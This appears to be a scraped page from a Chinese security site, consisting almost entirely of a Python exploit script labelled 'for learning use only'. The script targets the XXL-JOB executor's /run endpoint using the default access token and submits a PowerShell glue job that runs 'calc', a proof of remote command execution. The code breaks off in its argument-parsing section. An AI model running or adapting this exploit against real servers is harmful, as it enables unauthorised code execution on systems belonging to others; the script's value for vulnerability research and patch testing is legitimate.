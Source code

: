 [![](assets/1699257038-66a650fc3fbd127f685026e301335ed0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231103173454-3eae6fc6-7a2c-1.png)

# EXP 仅供学习使用！！！！！！！！！！

```plain
import requests
import argparse
def exp(url):
    headers = {'X-Requested-With': 'XMLHttpRequest',
'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36',
'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
'Accept-Encoding': 'gzip, deflate',
               "Xxl-Job-Access-Token":"default_token"}
    data = '''{
  "jobId": 123,
  "executorHandler": "demoJobHandler",
  "executorParams": "demoJobHandler",
  "executorBlockStrategy": "COVER_EARLY",
  "executorTimeout": 1,
  "logId": 1,
  "logDateTime": 1586629003729,
  "glueType": "GLUE_POWERSHELL",
  "glueSource": "calc",
  "glueUpdatetime":'1586699003758',
  "broadcastIndex": 0,
  "broadcastTotal": 0
}'''

    response = requests.post(url=url+"/run",headers=headers,data=data)
    if response.status_code == 200:
        print("200成功")
    else:
        print("失败\t 尝试代理")

if __name__ == '__main__':
    parser = argparse.ArgumentParser()
    parser.add_argument('ip', nargs='*')
```